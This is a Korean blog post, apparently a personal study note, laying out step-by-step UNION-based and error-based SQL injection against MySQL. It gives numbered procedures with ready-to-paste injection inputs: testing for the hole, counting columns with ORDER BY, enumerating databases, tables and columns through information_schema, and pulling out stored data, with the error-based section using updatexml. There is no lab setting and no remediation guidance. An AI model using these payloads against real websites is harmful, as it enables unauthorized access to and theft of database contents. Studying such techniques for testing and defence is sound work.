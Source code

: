 ```yaml
---
title: "Union SQLi 과 Error Based SQLi 과정 정리"
excerpt: "sql injection 보다 쉽게 할 수 있는 과정을 정리하였다."
tags:
    - Mysql DBIntroduce
    - DB
    - sql injection
last_modified_at: 2023-04-24T09:13:00-05:00
---
```

# 환경
    - MYSQL 서버

<br><br>
# 질의문의 결과가 화면에 보일때.
- 게시판(글이 화면에 나옴), 회원정보(마이페이지), 주소검색, 검색페이지 등


## Union SQL Injection 과정
1. 서버에서 어떤 질의문을 사용하는지 추측하기.
	- 질의문 추측 = `select xxxx from xxx where 컬럼명 like '%----%' ...`
2. **SQL Injection** 취약점 존재하는지 확인하기.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' and '1%'='1%' ...`
	- 입력 = `test%' and '1%'='1`
3. 컬럼수 찾기.
	- `order by` 를 이용하여 1씩 증가 시키면서 컬럼수를 찾아준다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' order by 1 -- %' ...`
	- 입력 = `test%' order by 1 -- `
4. data 출력 위치 파악하기.
	- 위에서 찾은 컬럼수를 이용하여 data 출력 위치 파악하기.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1','2','3','4' from dual -- %' ...`
	- 입력 = `test%' union select '1','2','3','4' from dual -- `
5. database 이름 출력하기.
	- 위에서 파악한 출력위치를 이용하여 DB 이름을 알아보자.
	- `select database() from dual` 명령을 이용하면 현재 DB 명이 나온다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',database(),'3','4' from dual -- %' ...`
	- 입력 = `test%' union select '1',database(),'3','4' from dual -- `
6. table 이름 출력하기.
	- 위에서 파악한 DB이름을 이용하여 존재하는 테이블명을 알아보자.
	- `select table_name from information_schema.tables where table_schema='DB명'` 명령을 이용하면 테이블명을 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',table_name,'3','4' from from information_schema.tables where table_schema='DB명' -- %' ...`
	- 입력 = `test%' union select '1',table_name,'3','4' from from information_schema.tables where table_schema='DB명' -- `
7. column 이름 출력하기.
	- 위에서 파악한 table 이름을 이용하여 table의 컬럼명을 알아보자.
	- `select column_name from information_schema.columns where table_name='테이블명'` 명령을 이용하면 해당 table의 컬럼명을 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',column_name,'3','4' from information_schema.columns where table_name='테이블명' -- %' ...
	- 입력 = `test%' union select '1',column_name,'3','4' from information_schema.columns where table_name='테이블명' -- `
8. 정보 빼오기.
	- 위에서 파악한 table명과 해당 table에 대한 column 명을 이용하여 정보를 빼오자!
	- `select column명 from table명` 명령을 이용하여 저장된 정보를 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',column명,'3','4' from table명 -- %' ...`
	- 입력 = `test%' union select '1',column명,'3','4' from table명 -- `
<br><br>




<br><br>

# 질의문의 결과가 화면에 안보일때.
- 로그인, 아이디 중복 체크.

## 조건
- Error 메시지가 화면에 출력될때. ( **Error Bases SQL Injection** ) 

## Error Based SQL Injection 과정
1. 서버에서 어떤 질의문을 사용하는지 추측하기.
	- 질의문 추측 = `select xxxx from xxx where 컬럼명='----' ...`
2. 오류 발생 확인하기. ( db 에러인지 확인하기 )
	- 입력 = `' asd`
	- **syntax error 발생(문법 에러)** 가 발생하는 것을 확인이 가능한지 본다.
3. Error Based SQL Injection Function 동작하는지 확인하기.
	- Syntax error (문법에러) : 문법 틀리면 안됨. 컴파일 할 때 잡아낸다.
	- 논리에러 : 실행이된다.
	- 즉 우리는 논리에러를 발생시켜야 한다.
	- **updatexml** 함수를 이용하자!
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,'test'), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,'test'), null) and '1'='1`
	- `XPATH syntax error: ':test'` 에러를 볼 수 있다.
	- `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(SQL)), null) and '1'='1' ...` test 대신 질의문을 넣어주면 된다.
4. Database 이름 출력하기.
	- `select database() from dual`  로 DB 명 찾기
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select database() from dual)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select database() from dual)), null) and '1'='1`
5. table 이름 출력하기.
	- `select table_name from information_schema.tables where table_schema='DB명' limit 0,1` 로 table 명 찾기.
	- 오류는 하나의 데이터만 보여줄 수 있다. 따라서 출력을 1개로 제한하였다.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select table_name from information_schema.tables where table_schema='DB명' limit 0,1)), null) and '1'='1' ...` 
	- 입력 = `1' and updatexml(null, concat(0x3a,(select table_name from information_schema.tables where table_schema='DB명' limit 0,1)), null) and '1'='1`
	- `limit` 를 조절하면서 원하는 테이블명을 찾는다.
6. column 이름 출력하기.
	- `select column_name from information_schema.columns where table_name='테이블명' limit 0,1` 로 table에 해당하는 column명 찾기.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select column_name from information_schema.columns where table_name='테이블명' limit 0,1)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select column_name from information_schema.columns where table_name='테이블명' limit 0,1)), null) and '1'='1`
7. 정보 빼오기
	- 위에서 파악한 table명과 해당 table에 대한 column 명을 이용하여 정보를 빼오자!
	- `select column명 from table명 limit 0,1` 명령을 이용하여 저장된 정보를 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select column명 from table명 limit 0,1)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select column명 from table명 limit 0,1)), null) and '1'='1`